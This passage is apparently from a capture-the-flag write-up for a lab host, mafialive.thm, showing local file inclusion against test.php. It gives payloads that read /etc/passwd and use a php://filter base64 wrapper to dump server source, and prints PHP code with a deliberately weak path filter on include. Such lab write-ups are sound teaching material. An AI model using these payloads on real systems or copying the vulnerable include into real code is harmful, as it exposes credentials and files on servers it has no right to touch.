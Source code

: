 <img id="image2" />

In attempting to access "`/etc/passwd`" via the URL {++http://mafialive.thm/test.php?view=/etc/passwd++}, I encountered some restrictions. To determine the parameters of access permissions, including those that were denied, I proceeded to review the source code.

I found this on web to encode the content as base64 and decode it back as php. 

!!! tip "LFI-PHP Base64 Encode/Decode"
    
    <p id="desc" style="font-size:15px">php://filter/convert.base64-encode/resource=file:///etc/passwd</p>


I proceeded to execute the following command: 

```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=file:///var/www/html/development_testing/test.php 
```

<img id="image3" />

Upon decoding the result, I was able to successfully access the ```test.php``` file, and the source code appeared as follows. It seems that the flag-2 was hidden in the source code of the test.php file I accessed.

- [x] Flag 1: Hostname
- [x] Flag 2: Exploiting LFI
- [ ] Flag 3: Initial Access
- [ ] Flag 4: User Flag
- [ ] Flag 5: Root Flag

```html linenums="1" hl_lines="11 17"
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: {--REDACTED--}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>
```
